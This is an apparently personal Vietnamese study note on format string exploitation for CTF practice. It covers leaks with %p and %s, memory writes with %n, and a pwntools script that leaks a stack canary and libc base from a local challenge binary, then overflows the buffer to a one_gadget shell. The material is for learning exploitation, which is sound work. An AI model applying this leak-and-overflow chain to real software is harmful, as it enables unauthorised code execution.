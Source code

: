 # Giới thiệu chung
- %p, in địa chỉ trên thanh ghi  
  - đối với biến khi a = "A"; print("%p", a) thì khi đến hàm print() trên thanh ghi rsi là 0x41 nên %p sẽ in ra giá trị 0x41  
  - đối với mảng khi a[10] = "ABCDEABCDE" thì print("%p", a) sẽ in ra địa chỉ đầu của mảng  
- %c in ra 1 byte đang có trên thanh ghi và in ra theo ascii nghĩa là 0x1234 thì %c sẽ in ra 0x34 và đổi về kí tự theo mã ascii  
- %s nhận vào địa chỉ và in ra chuỗi mà địa chỉ đó đang trỏ đến, còn đối với mảng, khi print("%s", a) thì thanh ghi sẽ tự truyền địa chỉ đầu mảng vào và 
- %s sẽ trỏ đến địa chỉ đó và in ra cho đến khi gặp 0x00  
- %n đếm số lượng byte được in ra trước nó, rồi ghi vào biến được truyền địa chỉ

> Lưu ý:  
> Đối với 32bit: in dữ liệu trên stack  
>	64bit: 5% đầu của 5 thanh ghi, % thứ 6 là dữ liệu trên stack  


# leak dữ liệu bằng %p
%p sẽ in dữ liệu trên stack dưới dạng hex()
p64(): pack64 chuyển hex sang bytes
u64():unpack chuyển bytes sang hex

# leak dữ liệu = %s
%s leak dữ liệu địa chỉ mà địa chỉ trỏ đến (con) trong con trỏ  

Lưu ý khi fread() đọc dữ liệu từ file vào chương trình, khi đó ta cần lưu ý ,cẩn thận có thể sẽ chia flag ra nhiều phần. 

# %n
để thay đổi dữ liệu của một biến, ta sẽ cho in ra %{giá trị cần thay đổi}$c sau đó dùng %n để đọc các byte đã in ra và lưu vào địa chỉ mà %n trỏ đến  
Trường hợp giá trị cần thay đổi quá lớn thì có thể chia thành 2 lần in, tuy nhiên lần thứ 2, %n sẽ đọc n byte của lần 1 và cộng m byte của lần 2

# FMT & BOF
ở đây ta sử dụng một công cụ mới khi bof ret2libc là one_gadget, one_gadget có chức năng liệt kê ra các system('/bin/sh') và các điều kiện đi kèm, thường dùng cho trường hợp PIE bật.
cú pháp: ``` one_gadget tênfile ```
![image](https://user-images.githubusercontent.com/111769169/221520986-6851fe89-f872-4afa-84c2-d708f57fafd1.png)  

<details> <summary> script </summary>

```python3
from pwn import *
exe = ELF("./fmtstr4_patched")
libc = ELF("./libc-2.31.so")
p = process(exe.path)
gdb.attach(p, gdbscript = '''

b*main+354
c
           ''')
input()

payload = b'01234456789 %21$p %23$p'
p.sendafter(b"ID: ", payload)
p.sendafter(b'Password: ', b'&WPAbC&M!%8S5X#W')
p.recvuntil(b"01234456789 ")

canary = int(p.recv(18), 16)
leak_libc = int(p.recvuntil(b"Enter", drop = True)[1:], 16)
libc.address = leak_libc - 0x24083
log.info('canary: ' + hex(canary))
log.info('leak libc: ' + hex(leak_libc))
log.info('base: ' + hex(libc.address))
log.info('system ' + hex(libc.sym['system']))

one_gadget = libc.address + 0xe3b01
payload2 = b'a' * 56 + p64(canary) + b'b' *8
payload2 +=  p64(one_gadget)
p.sendafter(b"your secret: ", payload2)
p.interactive()
```

</details>

# Tấn công bảng GOT
[FMT_Xmaster.md](https://github.com/wan-hyhty/trainning/blob/task3/FMT/FMT_Xmaster.md)
